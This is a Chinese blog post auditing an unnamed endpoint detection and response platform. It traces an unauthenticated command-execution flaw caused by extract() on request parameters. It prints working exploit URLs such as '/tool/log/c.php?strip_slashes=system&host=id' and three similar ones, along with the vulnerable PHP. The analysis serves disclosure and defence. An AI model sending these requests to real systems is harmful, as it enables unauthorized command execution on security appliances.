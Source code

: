 ```yaml
---
layout: post
author: Vulkey_Chen
title: "某终端检测响应平台代码审计分析"
date: 2020-09-03
music-id: 
permalink: /archives/2020-09-03/2
description: "某终端检测响应平台代码审计分析"
---
```


# 某终端检测响应平台代码审计分析

## 前言

2020年08月17日收到一条漏洞情报，某终端检测响应平台代码未授权RCE：`/tool/log/c.php?strip_slashes=system&host=id`

![-w1120](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15977354683614.jpg)

参数：**host**，可以修改任意的系统命令进行执行。

## 原理分析

首先我们跟进一下**/tool/log/c.php**文件发现其没有任何权限限制，所以我们只需要看一下请求参数是如何传递的，搜索关键词：

```php
$_POST
$_GET
$_REQUEST
```

在代码第144行、146行分别调用了**变量匿名函数**，并将`$_REQUEST`作为传递参数：

```php
$show_form($_REQUEST);
...
$main($_REQUEST);
```

先跟进**$show_form**这个匿名函数：

```php
$show_form = function($params) use(&$strip_slashes, &$show_input) {
    extract($params);
    $host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
    $path  = isset($path)  ? $strip_slashes($path)  : "";
    $row   = isset($row)   ? $strip_slashes($row)   : "";
    $limit = isset($limit) ? $strip_slashes($limit) : 1000;
    
    // 绘制表单
    echo "<pre>";
    echo '<form id="studio" name="studio" method="post" action="">';
    $show_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
    $show_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
    $show_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \s[w|e]\s"));
    $show_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
    echo '<input type="submit" id="button">';
    echo '</form>';
    echo "</pre>";
};
```

变量匿名函数 **$show_form** 具有一个形式参数 **$params** 在这里也就是**array("strip_slashes"=>"system","host"=>"id");**

接下来执行**extract($params);**，后进入如下代码：

```php
$host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
```

在这个过程中就产生了漏洞，想要了解具体原因，我们需要了解**extract**函数的作用，该函数是根据数组的`key=>value`创建变量`$key=value`（官方解释：**extract — Import variables into the current symbol table from an array**）

知道其函数作用之后，我们就大致明白漏洞原因了。

首先函数传入参数值为`array("strip_slashes"=>"system","host"=>"id");`

经过**extract()**函数后，赋值了2个变量：

```php
$strip_slashes = 'system';
$host = 'id';
```

在第91行代码，变量**$host**利用三元运算重新赋值**\$strip_slashes($host)**

而实际上其赋值内容是函数`system('id')`的返回结果，这也就造成了命令执行漏洞。

## 同类漏洞寻找

首先在全局文件中搜索`$_GET、$_POST、$_REQUEST`和`extract(`，其次在这些文件中使用正则寻找变量函数传递变量：`\$[a-zA-Z0-9_]*\(\$[a-zA-Z0-9_]*\)`

Linux grep寻找命令：

```shell
grep -E "\$_GET|\$_POST|\$_GET" . -r --include \*.php -v | grep "extract(" -v | grep -E "\\\$[a-zA-Z0-9_]*\(\\\$[a-zA-Z0-9_]*\)"
```

简单分析获得了另外三处RCE：

```
/tool/php_cli.php?strip_slashes=system&code=id
/tool/ldb_cli.php?strip_slashes=system&json=id
/tool/mdd_sql.php?strip_slashes=system&root=id
```

但无法真正利用，三处文件开头都有一个类似文件存活的判断，不存在代码则**die**退出，而默认环境上是存在：

![-w568](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15977415061102.jpg)


## 最后

该套程序还有诸多漏洞未被披露出来，建议采用ACL控制访问或下线该业务，等待官方升级补丁。